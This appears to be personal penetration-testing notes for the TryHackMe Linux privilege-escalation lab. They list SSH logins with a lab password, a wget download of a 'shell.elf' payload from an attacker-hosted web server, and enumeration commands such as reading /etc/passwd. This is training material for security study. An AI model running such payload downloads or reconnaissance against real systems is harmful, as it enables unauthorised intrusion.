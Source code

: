 # 1. TEST SETUP/ENVIRONMENT

## TRYHACKME
```
https://tryhackme.com/room/linuxprivesc
ssh user@1.1.1.1
ssh -oHostKeyAlgorithms=+ssh-dss user@1.1.1.1
pass:password321
```

## METASPLOITABLE


## FILE TRANSFER - WEB BASED
```
cd /var/www/html/priv_esc
python3 -m http.server
wget http://10.18.5.137:8000/shell.elf
```

## FILE TRANSFER - SMB BASED



# 2. MANUAL ENUMERATION 

## USERS
```
whoami
id
cat /etc/passwd
```

## HOSTNAME
```
hostname
```

## OS VERSION & ARCHITECTURE
```
cat /etc/issue
cat /etc/~release
uname
uname -a
```

## RUNNING PROCESS & SERVICES
```
ps 
ps -aux
pgrep mysqld
```
